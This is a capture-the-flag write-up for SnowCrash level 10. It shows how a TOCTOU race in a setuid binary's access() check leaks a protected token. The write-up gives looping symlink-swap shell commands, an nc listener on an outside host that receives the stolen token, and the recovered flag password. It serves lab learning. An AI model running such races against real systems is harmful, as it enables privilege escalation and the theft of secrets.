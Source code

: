 # Level10

In this level we have 2 files. The first is a file named `token` and the second is a binary.  
This program take a file and ip address. An `access` control is take with the function `access`
and the file is `read and send` in the `address ip`.  

So first to understand the behaviour, we can use this program with a file who has permissions.  

```bash
level10@SnowCrash:~$ ./level10 /tmp/test 192.168.56.114
Connecting to 192.168.56.114:6969 .. Unable to connect to host 192.168.56.114
```

We know that we need to listen the port 6969.  

```bash
┌─[✗]─[parrot@parrot]─[~]
└──╼ $nc -lp 6969
```

Result:

```bash
level10@SnowCrash:~$ ./level10 /tmp/test 192.168.56.114
Connecting to 192.168.56.114:6969 .. Connected!
Sending file .. wrote file!

┌─[✗]─[parrot@parrot]─[~]
└──╼ $nc -lp 6969
.*( )*.
hello
```

Secondly we can try with the file named `token`. Without suprises it's not working !

```bash
level10@SnowCrash:~$ ./level10 token 192.168.56.114
You don't have access to token
```

We can try to create a `symbolic link`.

```bash
level10@SnowCrash:~$ ln -sf $PWD/token /tmp/token
level10@SnowCrash:~$ ./level10 /tmp/token 192.168.56.114
You don't have access to /tmp/token
```

It's not working. After a time to search solution, we have find that the `access` function can be exploit.

## TOCTOU (Time Of Check To time of Use)  
It's a [race condition](https://shadowintel.medium.com/race-condition-attacks-b687c211592c). It's mean that 2 processes have access on same data.  
Between `check access` and `using data` we can exploit a race condition.  
In other word, we can try to do "You have access of this file" at the beginning and do "Oh! You are reading a file in which you haven't permissions" at the end.
To do this we can use this lines:  

```bash
level10@SnowCrash:~$ while true; do touch /tmp/token && ln -sf $PWD/token /tmp/token && rm -rf /tmp/token; done;
level10@SnowCrash:~$ while true; do ./level10 /tmp/token 192.168.56.114; done;
┌─[parrot@parrot]─[~]
└──╼ $nc -klp 6969
.*( )*.
woupa2yuojeeaaed06riuj63c
```

We send our commands in infinite loop to hope to have a chance to create a `race condition`.  
To receive the data we must use `nc -lkp PORT` in the host. We using the `-k` option to force nc to stay listenning.


```bash
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
